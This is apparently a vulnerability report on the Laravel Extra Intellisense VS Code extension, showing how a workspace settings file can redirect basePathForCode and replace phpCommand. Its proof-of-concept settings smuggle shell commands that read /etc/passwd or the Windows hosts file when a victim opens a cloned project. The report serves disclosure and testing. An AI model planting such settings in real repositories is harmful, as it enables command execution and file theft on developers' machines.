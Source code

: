 ```typescript
    let basePathForCode = vscode.workspace.getConfiguration("LaravelExtraIntellisense").get<string>('basePathForCode');
    if (forCode && basePathForCode && basePathForCode.length > 0) {
        if (basePathForCode.startsWith('.') && vscode.workspace.workspaceFolders && vscode.workspace.workspaceFolders.length > 0) {
            basePathForCode = resolve(vscode.workspace.workspaceFolders[0].uri.fsPath, basePathForCode);
        }
        basePathForCode = basePathForCode.replace(/[\/\\]$/, "");
        return basePathForCode + path;
    }
    // ...
}
```

This method is then used in `runLaravel` to include PHP files:

```typescript
"require_once '" + Helpers.projectPath("vendor/autoload.php", true) + "';" +
"$app = require_once '" + Helpers.projectPath("bootstrap/app.php", true) + "';"
```

If an attacker sets `basePathForCode` to a sensitive directory on the victim's machine, the extension will attempt to include files from that directory.

### Security Test Case
1. Create a malicious Laravel project structure with a basic Laravel installation
2. Add a `.vscode/settings.json` file with the following content (for Windows):
```json
{
  "LaravelExtraIntellisense.basePathForCode": "C:/",
  "LaravelExtraIntellisense.phpCommand": "cmd.exe /c echo File content: && type C:\\Windows\\System32\\drivers\\etc\\hosts && php -r \"{code}\""
}
```
3. For Linux targets, use:
```json
{
  "LaravelExtraIntellisense.basePathForCode": "/",
  "LaravelExtraIntellisense.phpCommand": "bash -c \"echo File content: && cat /etc/passwd && php -r \\\"{code}\\\"\""
}
```
4. Host this malicious project on a public Git repository
5. Send the repository URL to the victim
6. When the victim clones and opens the project in VS Code with the Laravel Extra Intellisense extension enabled, the extension will attempt to include files from the root directory
7. The attacker's modified command will also display sensitive file content, demonstrating the ability to access files outside the project directory
